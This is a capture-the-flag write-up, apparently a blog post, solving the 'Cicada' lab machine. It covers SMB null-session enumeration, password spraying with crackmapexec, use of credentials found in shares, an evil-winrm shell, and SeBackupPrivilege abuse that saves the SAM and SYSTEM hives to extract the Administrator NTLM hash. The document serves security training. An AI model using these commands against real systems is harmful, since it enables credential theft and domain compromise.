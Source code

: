 ```yaml
---
title: Cicada Writeup(Easy)
published: false
---
```


![machine logo](/assets/cicada/logo.png)

# [](#header-2)Recognition

First of all we do a scan with nmap:

```bash
sudo nmap -sS -p- --open --min-rate 5000 10.129.217.34 -n -Pn -oG ports -v
```

The nmap command reported the following ports:
*   Port 15
*   Port 88
*   Port 135
*   Port 139
*   Port 389
*   Port 445
*   Port 593
*   Port 636
*   Port 3268
*   Port 3269
*   Port 5985
*   Port 54115

We do a second, more advanced scan:

```bash
sudo nmap -sCV -p53,88,135,139,389,445,593,636,3268,3269,5985,54115 10.129.217.34 -oN escaneo
```

The scan reports the following information:

![nmap scan](/assets/cicada/nmapScan.png)

Here we can see that the **smb** port is open so we can try to connect using a null session

![smbclient scan](/assets/cicada/smbClientStartScan.png)

Looking in all the directories we find one with interesting information, in the **HR directory** there is a **password** but whe don't know the user

![HR folder content](/assets/cicada/HRContent.png)

To get the file we use this commands:

```bash
smb: \> recurse on
smb: \> mget *
```

![Notice file content](/assets/cicada/noticeContent.png)

Using the following command we find a list of users:

```bash
impacket-lookupsid -no-pass guest@10.129.217.34
```

Now we need to create a file with the users and fuzz them with **crackmapexec**

![Crackmapexec fuzz](/assets/cicada/crackmapexecFuzz.png)

Having the credentials for the user **michael.wrightson** we can list the users with smb

![Crackmapexec list users](/assets/cicada/crackmapexecUsers.png)

In the results we see a comment in the user **david.orelious** with his **password**

Now if we list the shares again we will see a new one with the name **DEV**

![Crackmapexec list shares](/assets/cicada/crackmapexecListShares.png)

With **smbclient** enter in the **DEV** folder

```bash
smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' //10.129.217.34/DEV
```

Here we see a file **"Backup_script.ps1"** and openning this we find some **credentials**

![Backup file with credentials](/assets/cicada/backupCred.png)

With crackmapexec we see that we pwned the user

![Crackmapexec winrm](/assets/cicada/crackmapexecWinrm.png)

# [](#header-2)Explotation

Using **evil-winrm** we get a shell

```bash
evil-winrm -i 10.129.217.34 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

Now we can find the **user flag** in the desktop

![User flag](/assets/cicada/userFlag.png)

# [](#header-2)Privilege Escalation

If whe do a **whoami /all** we see the **backups** privilege

![User privileges list](/assets/cicada/privileges.png)

If we search for this privilege we find this [page](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

Following the steps we can get the **root hash**

```bash
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
cd Temp
download sam
download system
```

Now in our system we run the following command:

```bash
pypykatz registry --sam sam system
```

![Administrator hash](/assets/cicada/rootHash.png)

With this we can use the **NTLM Hash** to connect with an **evil-winrm session**

![Winrm session as Administrator](/assets/cicada/adminWinrm.png)

Now we have a **shell** we go to the desktop and get the **root flag**

![Root flag](/assets/cicada/rootFlag.png)
